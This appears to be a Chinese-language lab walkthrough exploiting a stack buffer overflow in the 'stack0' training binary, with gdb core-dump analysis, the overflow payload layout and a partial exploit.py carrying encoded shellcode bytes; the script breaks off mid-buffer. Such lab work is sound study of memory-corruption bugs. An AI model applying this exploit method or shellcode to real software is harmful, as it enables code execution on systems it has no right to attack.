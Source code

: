 结果依然失败

```
-----------------output:---------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���1o<$3ɱ1U�da��N>ʪ����A>4P���d
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
┌─[root@x0day] - [~/桌面] - [Mon Jun 06, 08:33]
└─[$] <> gdb -q -c core 
[New LWP 32688]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffffd501 in ?? ()
------------------end------------------------

```

重新运行./stack0,手工输入:

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb

其中1234对应为main_ret位置，bbbb为原来的shellcode位置

产生core文件后

```
gdb -q -c core
--------output:---------
[New LWP 25058]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x34333231 in ?? ()
---------end------------

x/4 $esp
------output:---------
0xff85ffc0:     0x62626262      0xff860000      0xff86005c      0xf77e679a
-------end------------

x/4 $esp-4
------output:---------
0xff85ffbc:     0x34333231      0x62626262      0xff860000      0xff86005c
--------end-----------

```

易知从这里（core)看到的shellcode开始的位置应该从0xff85ffc0开始（上面exploit.py中不在shellcode前加nop时使用的地址是0xffffd500）

而0xff85ffc0中没有\x00不影响直接执行shellcode,不加nop,构造成如下输入链：

"a"*80+"\xc0\xff\x85\xff"+shellcode

在exploit.py中具体如下：

```
-----------------exploit.py-------------------
#/usr/bin/python
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
```